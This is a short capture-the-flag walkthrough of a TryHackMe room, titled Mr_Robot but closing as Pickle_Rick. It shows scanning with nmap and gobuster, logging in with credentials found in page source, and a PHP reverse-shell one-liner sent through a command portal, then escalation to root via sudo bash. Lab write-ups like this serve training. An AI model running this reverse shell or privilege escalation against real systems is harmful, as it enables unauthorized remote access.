 # TryHackMe: Mr_Robot

---

By: *UnknownPerson*

---

nmap -sC -sV -Pn -vv {IP}

## Port Scanning: {22,80}
```plaintext

In the Main Website Source code we get Username :- R1ckRul3s

Let's do some directory Buster using :- 
> gobutster dir -u http://{ip} -w {Wordlist Location}

Throw Gobuster we get :- Wubbalubbadubdub
Let set This as password and Username we got alredy
```
Username :- R1ckRul3s
Password :- Wubbalubbadubdub
--

```
Than portal.php we login as Given credetial Than there
is Command Directory Where I think we can sent the command throw this

So lets Try input some Reverse Shell Contant 

We Try Almost Whole trick like by python bash nc also upload out 
php revreshell but did't work let last try with php 
because the page is in php also php command is not filter'd

```

php -r '$sock=fsockopen("<ip>",<port>);exec("sh <&3 >&3 2>&3");'
--

## Intial Access

```
We get Intial Shell Get bash shell by :-  python3 -c "import pty; pty.spawn('/bin/bash')"

We get 1'st and 2nd ingredients
```
## Privillage Escallation

```
As per rule let's check with SUID , Crontab , Config File , Sudo -l
 , SSH folder access At last Linpease

> Look This when we try sudo -l We have as www-data we have all 
permission to access let's get shell using given commmand
```
sudo bash
--

As this way we agin Pawned New machine {Pickle_Rick}
--